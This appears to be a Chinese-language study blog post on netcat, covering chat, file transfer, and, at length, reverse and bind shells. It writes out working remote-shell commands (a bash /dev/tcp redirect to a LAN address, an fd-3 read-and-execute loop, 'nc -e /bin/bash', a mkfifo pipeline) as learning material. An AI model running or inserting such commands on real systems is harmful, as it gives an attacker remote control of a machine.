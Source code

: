 ```yaml
---
title: NetCat
date: 2016-08-26 14:17:46
tags:
- network security
- shell
- pipe
categories:
- study
---
```


参考资料:
[http://netcat.sourceforge.net/](http://netcat.sourceforge.net/)
[gnucitizen.org](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
[http://www.oschina.net/translate/linux-netcat-command](http://www.oschina.net/translate/linux-netcat-command)
[Reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[NetCat for windows](https://joncraton.org/blog/46/netcat-for-windows/)

<!--more-->

---

# 1. nc能干啥？
能扫描，能聊天，能监听，能反弹，能穿透，能代理，能传文件....  
netcat被成为网络工具中的瑞士军刀，具体用法可以参考上述链接或者在\*nix系统的shell中键入`man nc`查看手册．这里建议先好好学习一下Linux系统中管道(| > < >> <<等)的用法以及文件描述符的相关知识．

---
# 2. 栗子:
扫描的话就暂时不用nc了，有兴趣的话可以参考nmap这个工具的详细用法．灰常好用，还能输出各种格式的扫描结果并导入数据库．
## 1. 聊天:
我先在终端用ssh连接到一台Linux主机，然后键入`nc -l 8888`在远程机器的本地进行监听，然后在本机再开一个终端键入`nc -n 10.128.54.118 8888`即可开始聊天.-l参数表示监听，后面8888表示监听网络端口号，这里省略了监听的网卡．默认为"0.0.0.0",表示所有网络接口．-n参数表示不要将IP地址进行DNS逆向解析到主机名.
![nc_liaotian](/images/nc_liaotian.png)

## 2.监听和反弹shell(reverse shell)
先在一台主机shell环境中键入`nc -l -v -p 8888`,然后在另外一台主机中键入`bash -i >& /dev/tcp/10.128.54.118/8888 0>&1`.Bingo!!!,直接反弹回来一个shell终端.后面指令中的bash -i是启动一个交互式的bash,然后重定向到一个tcp描述符文件，是的，在\*nix中，OS的思想是一切都是文件．所以网络连接也是一个文件,`>`后面加上`&`表示不是一个简单的文件，而是文件描述符．这属于shell的高级用法，最起码得知道Linux中0,1,2这三个文件描述符默认是对应着标准输入流，标准输出流，标准错误流．而默认对应的真正物理硬件分别是键盘，显示屏和显示屏．因此可以理解为启动了一个交互式bash将标准输出流`>`重定向到了网络上，然后后面的`0>&1`表示对于标准输入也重定向到标准输出流，而标准输出流已经输出到了网络上了．所以搞在一起就是全部丢到网络上去．相当于节省了一根管道.
![Reverse_shell](/images/nc_reverse_shell.png)
关于反弹shell的代码网络上有很多，比如[这里](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet),囊括了包括Bash,Perl,Python,PHP,Ruby,Netcat,Java等，在渗透测试中可能会用到.上述的代码还可以改成下面:
```bash
$exec 3<>/dev/tcp/10.128.54.118/8888#创建3号文件描述符绑定到一个读写的网络连接
$cat <&3 | while read line; do $line >&3 2>&1; done#cat从3号描述符从读数据然后通过管道丢给while循环，while循环中就读cat的内容并执行，同时将内容重定向到3号描述符，并将错误流也一并回送．
```


## 3. 连接监听的shell(bind shell)
在Server端：
```bash
$nc -l port -e /bin/bash -i
```
在Client端：
```bash
$nc server_ip port 
```
一般用BSD的netcat不支持-e或者-c参数，所以可以通过建立管道文件来进行读写:
```bash
$mkfifo /tmp/tmp_fifo
$cat /tmp/tmp_fifo | /bin/bash -i 2>&1 | nc -l port > /tmp/tmp_fifo
```
![bind_shell](/images/nc_bind_shell.png)

## 4. 传送文件
说实话，在局域网里面传文件还是有些麻烦的．虽然已经有了ftp,smb等协议工具，但是服务端的配置很麻烦．但是有了nc就好了．利用重定向操作，直接实现顶级的文件传送．要传送目录的话可以先用tar等工具压缩和打包，然后再传送，同时支持加解密工具的使用，使得网络窃听者无法对嗅探的流量进行直接地解密．

Sender:
```bash
$nc -l Port < file
```

Receiver:
```bash
$nc IP Port > file
```
![file_send](/images/nc_file_send.png)
当然发送者和接受者的重定向也可以反回来使用，都是没问题的．可以多测试一下．如果利用这个小demo再编程做一个文件服务器的应该也可以哦．

---

# 3. 总结
对于\*nix学习，最好有一本书在手，然后参照命令过一遍，命令很多确实不好记，可以等以后需要的时候再去查，其实用多了就记住了．对于nc这个好的工具目前正好有需求呢所以就学习了一下...
